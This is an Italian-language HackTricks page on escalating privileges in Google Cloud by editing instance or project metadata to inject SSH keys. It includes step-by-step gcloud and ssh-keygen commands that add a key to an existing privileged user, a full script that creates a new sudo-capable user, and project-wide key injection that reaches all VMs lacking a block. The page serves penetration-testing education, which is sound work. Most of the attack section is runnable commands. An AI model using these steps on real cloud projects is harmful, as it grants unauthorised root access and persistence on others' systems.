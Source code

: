 # GCP - Aggiungi Metadati SSH Personalizzati

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Modifica dei metadati <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modifica dei metadati su un'istanza potrebbe comportare **significativi rischi per la sicurezza se un attaccante ottiene le necessarie autorizzazioni**.

### **Incorporazione delle chiavi SSH nei metadati personalizzati**

Su GCP, i **sistemi Linux** spesso eseguono script dall'[Ambiente Ospite Linux Python per Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente critico di questo è il [daemon degli account](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), che è progettato per **controllare regolarmente** l'endpoint dei metadati dell'istanza per **aggiornamenti alle chiavi pubbliche SSH autorizzate**.

Pertanto, se un attaccante può modificare i metadati personalizzati, potrebbe far sì che il daemon trovi una nuova chiave pubblica, che verrà elaborata e **integrata nel sistema locale**. La chiave verrà aggiunta al file `~/.ssh/authorized_keys` di un **utente esistente o potenzialmente creando un nuovo utente con privilegi `sudo`**, a seconda del formato della chiave. E l'attaccante sarà in grado di compromettere l'host.

### **Aggiungi chiave SSH a un utente privilegiato esistente**

1. **Esamina le chiavi SSH esistenti sull'istanza:**
- Esegui il comando per descrivere l'istanza e i suoi metadati per individuare le chiavi SSH esistenti. La sezione rilevante nell'output sarà sotto `metadata`, in particolare la chiave `ssh-keys`.
```bash
gcloud compute instances describe [ISTANZA] --zone [ZONA]
```
- Presta attenzione al formato delle chiavi SSH: il nome utente precede la chiave, separati da due punti.

2. **Prepara un file di testo per i metadati delle chiavi SSH:**
- Salva i dettagli dei nomi utente e delle relative chiavi SSH in un file di testo chiamato `meta.txt`. Questo è essenziale per preservare le chiavi esistenti durante l'aggiunta di nuove.

3. **Genera una nuova chiave SSH per l'utente di destinazione (`alice` in questo esempio):**
- Usa il comando `ssh-keygen` per generare una nuova chiave SSH, assicurandoti che il campo dei commenti (`-C`) corrisponda al nome utente di destinazione.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Aggiungi la nuova chiave pubblica a `meta.txt`, imitando il formato trovato nei metadati dell'istanza.

4. **Aggiorna i metadati delle chiavi SSH dell'istanza:**
- Applica i metadati delle chiavi SSH aggiornati all'istanza utilizzando il comando `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [ISTANZA] --metadata-from-file ssh-keys=meta.txt
```

5. **Accedi all'istanza utilizzando la nuova chiave SSH:**
- Connettiti all'istanza con SSH utilizzando la nuova chiave, accedendo alla shell nel contesto dell'utente di destinazione (`alice` in questo esempio).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Crea un nuovo utente privilegiato e aggiungi una chiave SSH**

Se non viene trovato alcun utente interessante, è possibile crearne uno nuovo a cui verranno assegnati privilegi `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Chiavi SSH a livello di progetto <a href="#sshing-around" id="sshing-around"></a>

È possibile estendere l'accesso SSH a più macchine virtuali (VM) in un ambiente cloud **applicando chiavi SSH a livello di progetto**. Questo approccio consente l'accesso SSH a qualsiasi istanza all'interno del progetto che non abbia esplicitamente bloccato le chiavi SSH a livello di progetto. Ecco una guida riassuntiva:

1. **Applica le chiavi SSH a livello di progetto:**
- Utilizza il comando `gcloud compute project-info add-metadata` per aggiungere le chiavi SSH da `meta.txt` ai metadati del progetto. Questa azione garantisce che le chiavi SSH siano riconosciute su tutte le VM del progetto, a meno che una VM abbia abilitato l'opzione "Blocca le chiavi SSH a livello di progetto".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Accedi alle istanze utilizzando le chiavi a livello di progetto:**
- Con le chiavi SSH a livello di progetto in posizione, puoi accedere tramite SSH a qualsiasi istanza all'interno del progetto. Le istanze che non bloccano le chiavi a livello di progetto accetteranno la chiave SSH, concedendo l'accesso.
- Un metodo diretto per accedere tramite SSH a un'istanza è utilizzare il comando `gcloud compute ssh [ISTANZA]`. Questo comando utilizza il tuo nome utente corrente e le chiavi SSH impostate a livello di progetto per tentare l'accesso.


# Riferimenti
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
